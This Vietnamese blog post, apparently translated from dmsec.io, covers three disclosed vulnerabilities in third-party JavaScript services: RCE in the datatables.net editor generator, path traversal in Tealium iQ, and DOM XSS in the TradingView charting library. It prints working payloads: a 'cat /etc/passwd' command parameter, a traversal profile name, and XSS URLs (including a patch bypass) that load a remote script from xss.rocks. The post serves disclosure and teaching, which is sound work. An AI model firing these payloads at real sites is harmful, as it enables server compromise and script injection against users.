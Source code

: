 * Một số lượng lớn các trang web sử dụng các thư viện JavaScript của bên thứ ba như một cách để tăng cường cho các chức năng của họ. Trong nhiều trường hợp, dữ liệu được tải lên trực tiếp từ domain của nhà cung cấp dịch vụ. Tuy nhiên, việc sử dụng các thư viện của bên thứ ba như một phần của website hoặc ứng dụng khiến nó dễ bị tấn công. Và dưới đây là ba ví dụ về các lỗ hổng như thế mà nó có thể đã ảnh hưởng đến hàng ngàn công ty.

# Ví Dụ 1: RCE in datatables.net
- Datatables.net cung cấp một thư viện miễn phí để hiển thị dữ liệu dưới dạng tables HTML. Trang chủ của datatables.net có đề xuất sử dụng thư viện online cdn.datatables.net.

![](https://images.viblo.asia/f1f808ef-485b-4ee1-9c04-6a7cc511f868.png)

- Điều này có nghĩa là rất nhiều trang web trên Internet sử dụng tài nguyên của cd.datatables.net làm nguồn tập lệnh của họ và trong trường hợp thỏa hiệp tài nguyên này, có thể có quyền truy cập vào tất cả các trang web này.

![](https://images.viblo.asia/c9f25670-a532-499f-924f-3db0a75fb330.png)

- Trong khi duyệt qua các dịch vụ thì đã phát hiện ra ứng dụng  https://editor.datatables.net/generator/ , cho phép tạo và test tùy chỉnh các tables bên phía backend. Mỗi khi một bảng mới được tạo, một tệp PHP mới được tạo trên server. Sử dụng một lỗ hổng trong việc lọc các tham số đầu vào để tạo tệp PHP, tôi có thể tạo lại cuộc tấn công RCE: một yêu cầu độc hại đã injection mã PHP tùy ý vào tệp được  tạo.

![](https://images.viblo.asia/4128b912-9281-4bc4-be2a-993cb34e0967.png)

- Khi nhấp vào liên kết của tệp dược tạo và thêm tham số **1=cat /etc/passwd**, nội dung của **/etc/passwd** tệp đã được lấy:

![](https://images.viblo.asia/5e6387e9-4b1b-45ab-9aac-582e62f68ec1.png)

- Nó đã được kiểm tra rằng lỗ hổng này có thể được sử dụng để truy cập các tệp trên  cdn.datatables.net , có khả năng cho phép khai thác lỗ hổng trên hơn một trăm nghìn trang web.


# Ví dụ 2: Path traversal in Tealium iQ
- Như trong ví dụ đầu tiên, dịch vụ này cũng yêu cầu sử dụng JavaScript từ tên miền của bên thứ ba.

![](https://images.viblo.asia/b3411323-0751-485a-a5ad-39623b20c494.png)

- Lỗ hổng này xảy ra do việc xử lý không cẩn thận dữ liệu của profile người dùng, dữ liệu nhận được từ người dùng nhập vào. Dưới đây là các tham số cơ bản được  Tealium iQ sử dụng để đăng dữ liệu profile trên tags.tiqcdn.com :

```
    https://tags.tiqcdn.com/utag/<Account Name>/<Profile Name>/prod/utag.js
```

- Vấn đề là Server cho phép các ký tự  `/` và `.` được sử dụng trong profile name. Những ký tự như vậy có thể được khai thác để thao tác với thư mục chứa profile. Chẳng hạn, trong trường hợp profile name có giá trị  `../../utag/uber/main`, mã JavaScript của hồ sơ riêng sẽ được tải lên  https://tags.tiqcdn.com/utag/uber/main/prod/utag.js và theo cách này, nó sẽ được nhúng trên bất kỳ trang web Uber nào sử dụng Tealium iQ.

- Lỗ hổng này đã được phát hiện và báo cáo như là một phần của Uber Bug Bounty và một chương trình Private Bug Bounty khác.

- Dưới đây là một khai thác thuận tiện có thể dễ dàng thay đổi nội dung của bất kỳ tệp .js nào tại  tags.tiqcdn.com .

![](https://images.viblo.asia/c63c7487-eb23-4cf5-930e-edd9c2fec71f.png)

# Ví dụ 3: DOM Based XSS in TradingView Charting Library
- Các [ TradingView Charting Library ](https://www.tradingview.com/HTML5-stock-forex-bitcoin-charting-library/) là thư viện rất phổ biến trên nển tảng thương mại điện tử. Hầu hết các sàn giao dịch tiền điện tử sử dụng thư viện này như một chức năng trong các dịch vụ của họ để hiển thị biểu đồ giao dịch trực tuyến. Vào ngày 24 tháng 9 năm 2018, dữ liệu về các lỗ hổng thư viện XSS có rủi ro cao đã được giới thiệu. 

- Bất kỳ ứng dụng web nào, sử dụng thư viện TrandingView trong các dịch vụ của mình, đều lưu trữ tệp HTML có thể truy cập công khai gọi là `tv-chart.html` trên máy chủ. Tập tin này được sử dụng để khởi tạo biểu đồ giao dịch thông qua các tham số location.hash . Kết quả của việc khởi tạo biểu đồ, iframe liên kết đến một trang sau đó tải lên trang.

    ```
    https://example.com/tradingview/en-tv-chart.x.html#symbol=BTC_ETH&interval=180&widgetbar=%7B%22details%22%3Afalse%2C%22watchlist%22%3Afalse%2C%22watchlist_settings%22%3A%7B%22default_symbols%22%3A%5B%5D%7D%7D&drawingsAccess=%7B%22type%22%3A%22black%22%7D&locale=en&uid=tradingview_36472&clientId=tradingview.com&userId=public_user&chartsStorageVer=1.0&debug=false&timezone=Asia%2FTaipei&theme=Dark
    ```
    
- Lỗ hổng nằm ở chức năng tải biểu đồ giao dịch của bên thứ ba. Hàm sử dụng một liên kết thu được từ đầu vào của người dùng tham số `indicatorsFile` và sau đó chuyển nó đến `$.getScript()`.

![](https://images.viblo.asia/9a1e006c-3b2b-4e85-8b0a-0b3135ccae82.png)

- Một liên kết dễ bị tấn công, thực thi mã Javascript tùy ý sẽ như sau:

    ```
        https://example.com/tradingview/en-tv-chart.x.html#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=//xss.rocks/xss.js
    ```

- Khi người dùng nhấp vào liên kết đó, đoạn mã sau sẽ được thực thi: xss.rocks/xss.js.

![](https://images.viblo.asia/5c24cd82-9102-413c-8370-f98d2436bef1.png)

- Sau khi lỗ hổng được công khai, TradingView đã phát hành phiên bản mới để fix nó. Chức năng, chịu trách nhiệm tải biểu đồ của bên thứ ba, đã được thay đổi. Phiên bản mới của chức năng này trong như sau.

![](https://images.viblo.asia/7d02df3d-69cf-4a7e-b6ec-40d4481b7bd9.png)

- Nhưng điều họ đã fix sai và lỗ hổng vẫn có thể được cho phép bằng tham số `customIndicatorsUrl` trong khi thêm tham số `uid=urlParams`.

    ```
    https://example.com/tradingview/en-tv-chart.x.html#disabledFeatures=[]&enabledFeatures=[]&customIndicatorsUrl=//xss.rocks/xss.js&uid=urlParams
    ```
    
- Tính đến thời điểm hiện tại thì một phiên bản mới đã được phát hành. Nó đã sửa chữa lỗ hổng hoàn toàn.

- Tất cả các nền tảng exchange, được bao gồm trong danh sách CoinMarketCap, đã được kiểm tra phiên bản thư viện dễ bị tấn công. Dô đó 90 dịch vụ exchange dễ bị tấn công đã được xác định, bao gồm cả những dịch vụ có khối lượng giao dịch hàng đầu. Tất cả các exchange dễ bị tấn công đã được thông báo về lỗ hổng.
    + 46 exchanges bỏ qua cảnh báo đó
    + 44 exchanges đã trả lời cảnh báo và yêu cầu dữ liệu kỹ thuật
    + 19 exchanges đã khắc phục lỗ hổng
    + 7 exchanges đề nghị phần thưởng

# Kết Luận
- Khi kiểm tra một ứng dụng web để bảo mật, bạn nên luôn luôn xem xét các sản phẩm của bên thứ ba được sử dụng, bởi vì trong nhiều trường hợp chúng vô cùng quan trọng.


-----



Nguồn : https://dmsec.io/hacking-thousands-of-websites-via-third-party-javascript-libraries/